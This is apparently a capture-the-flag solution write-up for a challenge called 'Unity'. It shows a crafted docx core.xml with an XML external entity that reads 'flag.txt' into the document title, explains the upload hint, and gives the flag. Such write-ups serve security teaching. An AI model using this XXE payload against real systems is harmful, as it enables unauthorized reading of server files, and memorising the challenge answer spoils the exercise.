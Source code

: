 # Unity Solution

The application is vulnerable to an External XML Entity (XXE) vulnerability. To exploit this, create a docx document and edit `/docprops/core.xml` as follows:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [<!ENTITY test SYSTEM 'file://flag.txt'>]>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dcterms:created xsi:type="dcterms:W3CDTF">2022-04-04T13:58:23Z</dcterms:created><dc:creator>mycreator</dc:creator><dc:description></dc:description><dc:language>en-US</dc:language><cp:lastModifiedBy></cp:lastModifiedBy><dcterms:modified xsi:type="dcterms:W3CDTF">2022-04-04T14:57:39Z</dcterms:modified><cp:revision>4</cp:revision><dc:subject></dc:subject><dc:title>&test;</dc:title></cp:coreProperties>
```

The important bits are the `<!DOCTYPE test [<!ENTITY test SYSTEM 'file://flag.txt'>]>` and `<dc:title>&test;</dc:title>`. The participants get a hint when they upload a docx file "Your file (no title provided) has been uploaded successfully!". This indicates that there is something fishy going on with the `title` element.

Flag: `CCSC{g00d_job_I_4m_sur3_R1ck_w1ll_be_s4fe_with_y0u}`
